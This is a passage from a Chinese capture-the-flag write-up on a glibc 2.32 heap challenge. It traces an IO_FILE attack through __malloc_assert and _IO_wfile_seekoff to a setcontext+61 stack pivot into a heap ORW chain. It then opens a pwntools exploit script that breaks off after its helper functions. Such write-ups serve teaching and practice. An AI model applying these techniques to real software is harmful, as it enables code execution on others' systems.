    ![image-20240906185802581](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061858927.png)

   

   这里要注意IO_FILE的 `_lock字段`要给一个可以写的地址，不然在触发__malloc_assert后会因为地址为问题报段错，这里看一下报错问题：

   条件不用管，其实也不可能和rbp的值相当，只需要地址合法即可：

   ![image-20240906184534156](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061845601.png)

   ![image-20240906184951208](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061849427.png)

   最后进入__vfwprintf_internal函数，调用到 _IO_wfile_seekoff：

   ![image-20240906185157461](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061851763.png)

   这里发现进入_IO_wfile_seekoff函数时mode等于0，但是这次退出 _IO_wfile_seekoff函数后在后面又进去了，这次mode 即rcx的值不是0：

   ![image-20240906190209093](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061902281.png)

   这里完成从rdi 到 rdx的转换，并进入setcontext+61：

   ![image-20240906190307186](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061903344.png)

   setcontext+61完成栈迁移到堆上：

   ![image-20240906190352538](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061903690.png)

   顺利衔接到堆上的ORW：

   ![image-20240906190417784](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061904982.png)

4. 本地libc2.32的完整exp：远程的EXP在这里 [bkbqwq | NSSCTF](https://www.nssctf.cn/note/set/8349) 

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   # p = remote("node5.anna.nssctf.cn",28549)
   p = process("./pwn")
   # libc = ELF('./libc.so.6')
   
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/libc-2.32.so')
   # elf = ELF("./pwn")
   
   
   opcode = b""
   def add(size,index):
       global opcode
       opcode += b"\x01" + p8(index) + p16(size)
       
   
   def edit(index, content):
       global opcode
       opcode += b"\x04" + p8(index) + p16(len(content)) + content
   
   def show(index):
       global opcode
       opcode += b"\x03" + p8(index)
   def free(index):
       global opcode
       opcode += b"\x02" + p8(index)
   
   ```